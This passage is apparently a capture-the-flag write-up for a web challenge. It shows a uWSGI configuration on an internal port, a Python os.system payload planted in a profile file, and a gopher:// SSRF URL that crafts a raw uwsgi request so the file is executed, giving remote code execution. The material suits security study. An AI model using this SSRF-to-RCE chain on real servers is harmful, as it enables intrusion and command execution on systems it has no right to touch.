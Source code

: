 The port that uwsgi is listening on is port 5000, as seen below in the configuration file: 

```ini
[uwsgi]
module = wsgi:app

uid = www-data
gid = www-data

socket = 127.0.0.1:5000
socket = /tmp/uwsgi.sock

chown-socket = www-data:www-data
chmod-socket = 664

master = True
processes = 4
threads = 2

buffer-size=1000000
vacuum = True
die-on-term = True

need-app = true

pythonpath = %(chdir)
pythonpath = /app/venv/lib/python3.8/site-packages
```

##### Solution 
Im gonna keep it brief because I spent a bunch of time on this challenge, and have a bunch of unnecessary notes. 

##### Part 1: Create the python payload and insert it into one of the profiles:

```python
import os
os.system("/readflag > /app/profiles/IOI-655323.json")
```

##### Part 2: Execute SSRF payload via the import profile route 
```URL
gopher:///127.0.0.1:5000/_%00%D2%00%00%0F%00SERVER_PROTOCOL%08%00HTTP/1.1%0E%00REQUEST_METHOD%03%00GET%09%00PATH_INFO%01%00/%0B%00REQUEST_URI%01%00/%0C%00QUERY_STRING%00%00%0B%00SERVER_NAME%00%00%09%00HTTP_HOST%0E%00127.0.0.1%3A5000%0A%00UWSGI_FILE%1D%00/app/profiles/IOI-655321.json%0B%00SCRIPT_NAME%10%00/IOI-655321.json
```

##### Payload Breakdown:
If the SSRF vulnerability is successfully exploited using the Gopher protocol to interact with uWSGI on its internal port (5000). If uWSGI is misconfigured to treat that targeted JSON file—IOI-655321.json—as executable Python code. In that case, we’re looking at a potential remote code execution (RCE) scenario. Basically, the Python code inside the JSON file could be executed by the server, giving an attacker the power to run arbitrary commands and take control of the system.
<br>
After hitting import, it will say "Not a valid save data file", but if we load the profile that we sent the flag.. we see it actually worked!
